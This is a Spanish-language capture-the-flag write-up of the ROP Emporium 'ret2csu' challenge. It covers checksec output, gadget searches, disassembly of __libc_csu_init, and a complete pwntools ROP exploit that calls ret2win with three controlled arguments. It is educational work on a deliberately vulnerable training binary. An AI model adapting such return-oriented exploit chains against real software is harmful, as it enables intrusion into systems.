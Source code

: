 ```yaml
---
title: ret2csu
date: 2024-08-23
platform: ROP Emporium
author: naibu3
---
```

#writeup #pwn 
# Reconocimiento

Como siempre comenzamos lanzando [[checksec]]:

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'.'
```

En el enunciado nos dicen que es igual al reto de [[callme]], pero con la diferencia de que nos será más difícil pasar el último argumento:

> **Same same, but different**
> This challenge is very similar to "callme", with the exception of the useful gadgets. Simply call the `ret2win()` function in the accompanying library with the same arguments you used to beat the "callme" challenge (`ret2win(0xdeadbeef, 0xcafebabe, 0xd00df00d)` for the ARM & MIPS binaries, `ret2win(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)` for the x86_64 binary).

Lo primero será buscar algunos gadgets con [[ropper]]:

```
0x00000000004006a3: pop rdi; ret; 
0x00000000004006a1: pop rsi; pop r15; ret;
```

Aunque busquemos con varias herramientas, no encontraremos ningún gadget que nos permita controlar *rdx* y por tanto, introducir el último argumento. Para ello, deberemos utilizar una técnica llamada [[pwn/Ret2csu|Ret2csu]], de forma que utilizaremos los *universal gadgets*, es decir, aquellos presentes en la función *__libc_csu_init*. 

```
disass __libc_csu_init 
Dump of assembler code for function __libc_csu_init:
[...]
   0x0000000000400680 <+64>:	mov    rdx,r15
   0x0000000000400683 <+67>:	mov    rsi,r14
   0x0000000000400686 <+70>:	mov    edi,r13d
   0x0000000000400689 <+73>:	call   QWORD PTR [r12+rbx*8]
   0x000000000040068d <+77>:	add    rbx,0x1
   0x0000000000400691 <+81>:	cmp    rbp,rbx
   0x0000000000400694 <+84>:	jne    0x400680 <__libc_csu_init+64>
   0x0000000000400696 <+86>:	add    rsp,0x8
   0x000000000040069a <+90>:	pop    rbx
   0x000000000040069b <+91>:	pop    rbp
   0x000000000040069c <+92>:	pop    r12
   0x000000000040069e <+94>:	pop    r13
   0x00000000004006a0 <+96>:	pop    r14
   0x00000000004006a2 <+98>:	pop    r15
   0x00000000004006a4 <+100>:	ret
```

Ahí encontramos gadgets bastante interesantes. Vemos que podemos controlar tanto *edi*, como *rsi*, y para *rdx*, simplemente debemos almacenar el valor en *r15* primero. Sin embargo, hay que tener en cuenta las instrucciones a las que se llama después, ya que tenemos un `call   QWORD PTR [r12+rbx*8]`. Una cosa que podemos hacer es saltar a *_fini* (aquí puedes leer una [POC](https://www.voidsecurity.in/2013/07/some-gadget-sequence-for-x8664-rop.html)):

```
disass _fini 
Dump of assembler code for function _fini:
   0x00000000004006b4 <+0>:	sub    rsp,0x8
   0x00000000004006b8 <+4>:	add    rsp,0x8
   0x00000000004006bc <+8>:	ret
```

Hay que tener en cuenta que no hay que pasar directamente la instrucción, sino un puntero a dicha instrucción. Con [[gdb]]-[[peda]], podemos buscarlo:

```
gdb-peda$ find 0x00000000004006b4
Searching for '0x00000000004006b4' in: None ranges
Found 1 results, display max 1 items:
ret2csu : 0x600e48 --> 0x4006b4 (<_fini>:	sub    rsp,0x8)
```

De esta forma, el valor de *rdx* se mantiene intacto. Además, realiza una suma y comparación `add rbx,0x1; cmp rbp,rbx;` así que tenemos que tener esto en cuenta. Lo más sencillo es que los registros valgan lo siguiente:

```
rbx = 0x0
rbp = 0x1
r12 = 0x600e48
```

# Explotación

Ya podemos ponernos a escribir un script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

context.update(arch='amd64')
exe = './ret2csu'
elf = ELF(exe)


def start(argv=[], *a, **kw):
    
    return process([exe] + argv, *a, **kw)

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

offset = 40*b"A"

# 0x00000000004006a3: pop rdi; ret;
poprdi = p64(0x00000000004006a3)

# 0x00000000004006a1: pop rsi; pop r15; ret;
poprsi_r15 = p64(0x00000000004006a1)

# 0x000000000040069a <+90>:	pop rbx; [...]
poprbx_rbp_r12_r13_r14_r15_ret = p64(0x40069a)

# Hay que tener en cuenta que al ser dinamically linked, debemos llamar al programa y ver en que direccion se almacena
ret2win = p64(elf.symbols['ret2win'])

# 0x0000000000400680 <+64>:	mov rdx,r15; [...]
movrdx_r15__call = p64(0x0000000000400680)

# ret2csu : 0x600e48 --> 0x4006b4 (<_fini>:	sub rsp,0x8)
fini = p64(0x600e48)

arg1 = 0xdeadbeefdeadbeef               #rdi
arg2 = 0xcafebabecafebabe               #rsi
arg3 = 0xd00df00dd00df00d               #rdx

ret = p64(0x4004e6)

payload = offset
payload += poprbx_rbp_r12_r13_r14_r15_ret
payload += p64(0)                           #rbx = 0, para que luego se le sume uno y la comparacion salga
payload += p64(1)                           #rbp = 1
payload += fini                             #r12 = *fini
payload += p64(1)                           #r13 (basura)
payload += p64(1)                           #r14 (basura)
payload += p64(arg3)                        #r15 = arg3, luego ira a rdx
payload += movrdx_r15__call
payload += p64(1)*7              #Mete 8 posiciones extra que el programa se va a saltar (add rsp,0x8)
payload += poprdi
payload += p64(arg1)
payload += poprsi_r15
payload += p64(arg2)
payload += p64(1)
#ayload += ret
payload += ret2win

io.recvuntil(b'> ')
io.sendline(payload)

io.interactive()
```